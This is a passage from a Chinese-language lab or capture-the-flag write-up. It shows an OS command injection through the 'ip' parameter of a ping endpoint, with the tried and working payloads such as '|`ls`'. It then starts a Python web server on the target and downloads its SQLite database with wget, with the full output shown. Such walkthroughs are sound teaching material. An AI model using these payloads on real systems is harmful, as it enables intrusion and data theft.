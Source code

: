 > *正常输出无法正常显示，因此使用* `*view-source*` *看起来更直观。*

# 最初的立足点

我们可以看到`ping`命令正在后台运行。因此，我们可以尝试在这里执行操作系统命令注入。

```
view-source:http://10.10.193.93:8081/ping?ip=10.10.193.93;ls # Does not work
view-source:http://10.10.193.93:8081/ping?ip=10.10.193.93|ls # Does not work
view-source:http://10.10.193.93:8081/ping?ip=10.10.193.93|`ls` # Works but only one word gets printed in the output
```

从一个单词的输出中，我们可以看到一个`.sqlite`字段的名称被返回。

我们知道命令正在机器上执行，但是我们看不到正确的输出。因此，我们可以通过执行以下步骤来尝试下载`.sqlite`文件以检查其内容:

1.  通过发送命令`which python`代替 URL 中的`ls`，检查`python`是否安装在机器上:

![](img/13d6939f7870d00aefe099733820ee82.png)

在这里，可以看到`/usr/bin/python`出现在机器上。

2.因此，我们可以通过发送命令`python -m SimpleHTTPServer`来启动一个 python 服务器，之后页面会一直加载，表明命令执行成功。

3.现在，我们可以在本地机器上使用`wget`从目标机器下载`.sqlite`文件:

```
┌──(kali㉿kali)-[~/Desktop/oscp/ultraTech]
└─$ wget [http://10.10.193.93:8000/utech.db.sqlite](http://10.10.193.93:8000/utech.db.sqlite)
 — 2021–04–23 12:09:45 —  [http://10.10.193.93:8000/utech.db.sqlite](http://10.10.193.93:8000/utech.db.sqlite)
Connecting to 10.10.193.93:8000… connected.
HTTP request sent, awaiting response… 200 OK
Length: 8192 (8.0K) [application/octet-stream]
Saving to: ‘utech.db.sqlite’
​
utech.db.sqlite 0%[ ] 0 — .-KB/s utech.db.sqlite 44%[===================> ] 3.55K 10.4KB/s utech.db.sqlite 100%[==============================================>] 8.00K 12.2KB/s utech.db.sqlite 100%[==============================================>] 8.00K 12.2KB/s in 0.7s 
​
2021–04–23 12:09:46 (12.2 KB/s) — ‘utech.db.sqlite’ saved [8192/8192]
```

> 这里有一些猜测工作。通常 python 服务器在端口 8000 上启动，这就是我使用 8000 的原因，但是如果这个命令没有成功执行，我们可以尝试端口 8080 或者我们可以传递我们自己的特定端口。

因为我们有了`.sqlite`文件，我们可以使用`sqlite3`命令打开它，并检查存储在其中的数据。
